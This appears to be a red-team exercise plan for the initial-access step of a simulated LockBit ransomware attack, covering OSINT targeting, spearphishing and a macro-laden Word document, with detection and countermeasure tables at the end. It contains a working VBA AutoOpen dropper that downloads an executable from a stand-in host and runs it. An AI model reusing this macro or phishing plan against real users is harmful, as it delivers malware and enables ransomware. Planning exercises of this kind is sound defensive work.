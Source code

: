 
# Step 1: Initial Access

**Objective**: Simulate a russian hacker group using a corrupted Lockbit file to move laterally (past firewall), steal sensitive files, and deploy ransomware.

---

## Context

- Target system: `user-workstation subnet` (domain-joined, internal)
- Scenario: Russian hackers that target specific user (OSINT), and find email address to send corrupted docx file.
- Payload type: Lockbit3.0 (docm file w/ VBA script)
- Execution method: Manual execution by using a spearphishing email with corrupted office document after white cell execution. 

---

## Execution


### 1. Finding user-workstation subnet emails to target

- Some kind of OSINT operation (find via ION social media)
- Gather user email addresses in the user-workstation subnet
- Choose a high-privilege or frequently active user

### 2. Build Malicious Word Document

- Insert a VBA script to gain user level access 
- Create a .docm file with an embedded macro payload that writes LockBit executable to disk and runs it:

```
Sub AutoOpen()
  Dim url As String
  url = "http://malicious-cdn.ru/invoice-update.exe"
  Dim objXMLHTTP, objADOStream
  Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
  Set objADOStream = CreateObject("ADODB.Stream")
  objXMLHTTP.Open "GET", url, False
  objXMLHTTP.Send
  If objXMLHTTP.Status = 200 Then
    objADOStream.Open
    objADOStream.Type = 1
    objADOStream.Write objXMLHTTP.ResponseBody
    objADOStream.SaveToFile "C:\Users\Public\invoice-update.exe", 2
    objADOStream.Close
    Shell "C:\Users\Public\invoice-update.exe"
  End If
End Sub
```

### 3. Deliver Phishing Email

- Compose an email that mimics other users on the subnet 
- Attach malware and send

### 4. User Executes Payload

- White cell execution of user clicking email
  - "Editing" malicious document triggers embedded payload

---

## Result

- Gain user level access to user-workstation subnet
- Optional: Find other users to compromise via DMZ Mail Server

---

## Detection Opportunities

| Vector | Description |
|--------|-------------|
| Email gets blocked | Email security filters (e.g., SPF/DKIM, attachment scanning, sandboxing) flag or block the malicious Word document before delivery. |
| Windows recognizes VBA scripts | Microsoft Defender or AMSI detects malicious or obfuscated VBA macro behavior during document execution. |
| Users report as spam? | Users receive suspicious email and report it to IT/security, triggering manual or automated investigation. |

---

## Defensive Countermeasures

- Quarantine/sandbox all email attachments
- Disable office macros